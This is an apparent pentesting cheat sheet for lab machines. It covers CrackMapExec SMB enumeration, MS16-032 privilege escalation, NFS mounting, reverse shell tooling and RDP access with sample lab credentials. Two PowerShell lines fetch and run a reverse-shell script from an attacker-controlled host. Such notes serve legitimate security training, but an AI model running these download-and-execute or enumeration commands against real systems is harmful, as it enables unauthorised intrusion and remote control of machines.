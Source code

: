 ### Crackmapexec
https://wiki.porchetta.industries/

`crackmapexec smb 10.10.10.161 -u '' -p ''`

`crackmapexec smb 10.10.10.161 --pass-pol`

`crackmapexec smb 10.10.10.161 --users`

`crackmapexec smb 10.10.10.161 --groups`

### Misconfig/Vulnerability specific commands 
[Pre-Compiled Windows Exploits for common vulns](https://github.com/abatchy17/WindowsExploits)

[How to exploit MS16-032](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

[MS16-032 Exploit Script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) 

**note** add a line at the end `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"` 

[Upload web.config file for ASP server own](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[Buffer Overflow Cheatsheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

[Buffer Overflow tutorial](https://www.youtube.com/watch?v=1X2JGF_9JGM)

### Mount an NFS share that has ACL applied (root squashing)
` sudo nfspysh -o server=10.10.11.191:/var/www/html` 

[Mount and extract password hashes from VHD Files](https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/)


### Shells and Remote access 
[Reverse Shell Generator - Great for quickly putting together payloads](https://www.revshells.com/)

[Nishang PowerShell pentesting framework (Payloads, shells, etc)](https://github.com/samratashok/nishang)

[Invoke-Powershelltcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

### RDP to Machine
`xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:[MACHINE_NAME] /u:[USERNAME] /p:[PASSWORD] /size:1180x708`

`EX: xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:manageengine /u:administrator /p:studentlab /size:1800x900`

### Check if Powershell is running as 32 or 64 bit (Helpful to check if kernel exploits are failing)
`PS C:\Users> [Environment]::Is64BitProcess` returns true/false 
if running as 32 bit, call the powershell from `C:\windows\sysNative` instead of `C:\windows\system32` 
Example - `C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1')`
